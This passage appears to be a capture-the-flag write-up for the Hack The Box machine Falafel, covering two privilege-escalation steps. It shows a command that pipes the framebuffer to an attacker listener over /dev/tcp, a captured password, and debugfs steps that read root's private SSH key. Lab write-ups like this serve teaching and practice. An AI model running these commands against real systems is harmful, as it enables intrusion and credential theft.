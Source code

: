 ### Privilege Escalation 2

The `id` command shows that the current user _moshe_ is a member of the _video_ group.
With this membership it is possible to read monitor output and as _yossi_ is logged into a physical terminal _tty/1_, we are able to capture that monitor.

This information is stored in _/dev/fb0_ and should be downloaded to our local client for analysis:
```markdown
# On local client
nc -lvnp 9002 > fb.raw

# On box
cat /dev/fb0 > /dev/tcp/10.10.14.2/9002
```

When opening it with any image manipulation program like **GIMP**, it opens it but nothing can be read because the resolution is not correct.
The correct resolution can be found in _/sys/class/graphics/fb0/virtual_size_ and it is 1176x885.

![Falafel login page](https://kyuu-ji.github.io/htb-write-up/falafel/falafel_image-1.png)

On the screen it shows that _yossi_ did a mistake and typed a password change into the terminal:
> MoshePlzStopHackingMe!

With this password we can log into the box via SSH as _yossi_.
```markdown
ssh yossi@10.10.10.73
```

### Privilege Escalation to root

The `id` command shows that the current user _yossi_ is a member of the _disk_ group.
With this membership it is possible to access disk files and the command `debugfs` is helpful for that:
```markdown
debugfs /dev/sda1
```

In here system commands can be executed like `ls` and `cd`.
Changing directory to root and getting the contents of the private SSH key:
```markdown
debugfs:  ls
debugfs:  cd root
debugfs:  cd .ssh
debugfs:  cat id_rsa
```

With this SSH key we can log into the box as root!
```markdown
ssh -i id_rsa_root root@10.10.10.73
```
